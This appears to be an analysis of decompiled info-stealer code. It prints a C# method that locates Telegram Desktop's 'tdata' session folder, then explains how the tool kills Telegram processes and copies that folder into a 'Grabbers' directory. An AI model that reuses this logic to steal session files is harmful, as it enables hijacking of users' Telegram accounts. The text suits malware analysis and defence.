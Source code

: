 ```csharp
		}

		// Token: 0x06000010 RID: 16 RVA: 0x00002DC4 File Offset: 0x00000FC4
		private static string SearchPathTelegram()
		{
			bool flag = Directory.Exists(Variables.roamingappdata + "\\Telegram Desktop\\tdata");
			string text;
			if (flag)
			{
				text = Variables.roamingappdata + "\\Telegram Desktop\\tdata";
			}
			else
			{
				bool flag2 = Telegram.GetPathByLnk() != "Not Found!";
				if (flag2)
				{
					string pathByLnk = Telegram.GetPathByLnk();
					string text2 = pathByLnk.Remove(pathByLnk.Length - 15, 15);
					text = text2 + "\\tdata";
				}
				else
				{
					text = "Not Found!";
				}
			}
			return text;
		}
	}
}
```

### **GrabberTelegramSession**

- Looks for Telegram’s `tdata` folder using `SearchPathTelegram`.
- If found, shuts down any running Telegram processes (`TelegramProcessKill`) so the files aren’t locked.
- Makes a `TelegramSession` folder inside `Variables.workdir\Grabbers\`.
- Copies everything inside `tdata` — files, folders, all of it — into the new spot.
- Updates `Variables.telegramSessionFound` to "Found! Success" if all goes well; otherwise logs an error.

---

### **TelegramProcessKill**

- Scans running processes for anything named "Telegram".
- If `Variables.pathToTelegram` hasn’t been set yet ("Not Found!"), it grabs the executable path from the process itself and figures out where `tdata` is from there.
- Force-kills all Telegram processes it finds.
- Waits until they’re completely dead before moving on (no half-killed processes hanging around).

---
